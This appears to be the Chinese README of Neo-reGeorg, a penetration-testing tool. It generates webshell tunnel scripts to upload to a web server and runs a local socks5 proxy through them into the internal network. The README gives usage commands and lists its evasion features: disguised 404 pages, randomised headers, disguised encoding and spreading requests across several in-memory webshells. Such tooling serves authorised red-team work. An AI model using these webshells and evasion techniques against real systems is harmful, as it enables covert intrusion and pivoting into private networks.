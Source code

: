 Neo-reGeorg
=========

[简体中文](README.md)　｜　[English](README-en.md)

**Neo-reGeorg** 是一个旨在积极重构 [reGeorg](https://github.com/sensepost/reGeorg) 的项目，目的是：

* 提高 tunnel 连接安全性
* 提高可用性，避免特征检测
* 提高传输内容保密性
* 应对更多的网络环境场景



Version
----

2.4.1 - [版本修改日志](CHANGELOG.md)



Features
----

* 传输内容经过变形 base64 加密，伪装成 base64 编码
* 直接请求响应可定制化 (如伪装的404页面)
* HTTP Headers 的指令随机生成，避免特征检测
* HTTP Headers 可定制化
* 自定义 HTTP 响应码
* 多 URL 随机请求
* 服务端 DNS 解析
* 兼容 python2 / python3
* 服务端环境的高兼容性
* 参考 [pivotnacci](https://github.com/blackarrowsec/pivotnacci) 实现单 Session 创建多 TCP 连接，应对部分负载均衡场景
* 支持内网转发，应对负载均衡环境



Dependencies
-----------

* [**requests**] - https://github.com/kennethreitz/requests



Basic Usage
--------------

* **Step 1.**
设置密码生成 tunnel.(aspx|ashx|jsp|jspx|php) 并上传到WEB服务器
```ruby
$ python neoreg.py generate -k password

    [+] Create neoreg server files:
       => neoreg_servers/tunnel.jspx
       => neoreg_servers/tunnel_compatibility.jspx
       => neoreg_servers/tunnel.php
       => neoreg_servers/tunnel.ashx
       => neoreg_servers/tunnel.aspx
       => neoreg_servers/tunnel.jsp
       => neoreg_servers/tunnel_compatibility.jsp

```

* **Step 2.**
使用 neoreg.py 连接 WEB 服务器，在本地建立 socks5 代理
```ruby
$ python3 neoreg.py -k password -u http://xx/tunnel.php
+------------------------------------------------------------------------+
  Log Level set to [DEBUG]
  Starting socks server [127.0.0.1:1080]
  Tunnel at:
    http://xx/tunnel.php
+------------------------------------------------------------------------+
```

   注意，如果你的工具，如 nmap 不支持 socks5 代理设置，请使用 [proxychains](https://github.com/rofl0r/proxychains-ng) 等




Advanced Usage
--------------

1. 支持生成的服务端，默认直接请求响应指定的页面内容 (如伪装的 404 页面)
```ruby
$ python neoreg.py generate -k <you_password> --file 404.html --httpcode 404
$ python neoreg.py -k <you_password> -u <server_url> --skip
```

2. 如服务端 WEB，需要设置代理才能访问
```ruby
$ python neoreg.py -k <you_password> -u <server_url> --proxy socks5://10.1.1.1:8080
```

3. 如需 Authorization 认证和定制的 Header 或 Cookie
```ruby
$ python neoreg.py -k <you_password> -u <server_url> -H 'Authorization: cm9vdDppcyB0d2VsdmU=' --cookie "key=value;key2=value2"
```

4. 需要分散请求，可上传到多个路径上，如内存马
```ruby
$ python neoreg.py -k <you_password> -u <url_1> -u <url_2> -u <url_3> ...
```

5. 开启内网转发，应对负载均衡
```ruby
$ python neoreg.py -k <you_password> -u <url> -r <redirect_url>
```

* 更多关于性能和稳定性的参数设置参考 -h 帮助信息
```ruby
# 生成服务端脚本
$ python neoreg.py generate -h
    usage: neoreg.py [-h] -k KEY [-o DIR] [-f FILE] [-c CODE] [--read-buff Bytes]

    Generate neoreg webshell

    optional arguments:
      -h, --help            show this help message and exit
      -k KEY, --key KEY     Specify connection key.
      -o DIR, --outdir DIR  Output directory.
      -f FILE, --file FILE  Camouflage html page file
      -c CODE, --httpcode CODE
                            Specify HTTP response code. (default: 200)
      --read-buff Bytes     Remote read buffer. (default: 513)

# 连接服务端
$ python neoreg.py -h
    usage: neoreg.py [-h] -u URI [-r URL] -k KEY [-l IP] [-p PORT] [-s] [-H LINE]
                     [-c LINE] [-x LINE] [--local-dns] [--read-buff Bytes]
                     [--read-interval MS] [--max-threads N] [-v]

    Socks server for Neoreg HTTP(s) tunneller. DEBUG MODE: -k
    (debug_all|debug_base64|debug_headers_key|debug_headers_values)

    optional arguments:
      -h, --help            show this help message and exit
      -u URI, --url URI     The url containing the tunnel script
      -r URL, --redirect-url URL
                            Intranet forwarding the designated server (only
                            jsp(x))
      -k KEY, --key KEY     Specify connection key
      -l IP, --listen-on IP
                            The default listening address.(default: 127.0.0.1)
      -p PORT, --listen-port PORT
                            The default listening port.(default: 1080)
      -s, --skip            Skip usability testing
      -H LINE, --header LINE
                            Pass custom header LINE to server
      -c LINE, --cookie LINE
                            Custom init cookies
      -x LINE, --proxy LINE
                            Proto://host[:port] Use proxy on given port
      --local-dns           Use local resolution DNS
      --read-buff Bytes     Local read buffer, max data to be sent per
                            POST.(default: 2048 max: 2600)
      --read-interval MS    Read data interval in milliseconds.(default: 100)
      --max-threads N       Proxy max threads.(default: 1000)
      -v                    Increase verbosity level (use -vv or more for greater
                            effect)
```


TODO
----

 * HTTP body 隐写

 * 传输 Target 隐写



License
----

GPL 3.0


Stargazers over time
----

[![Stargazers over time](https://starchart.cc/L-codes/Neo-reGeorg.svg)](https://starchart.cc/L-codes/Neo-reGeorg)
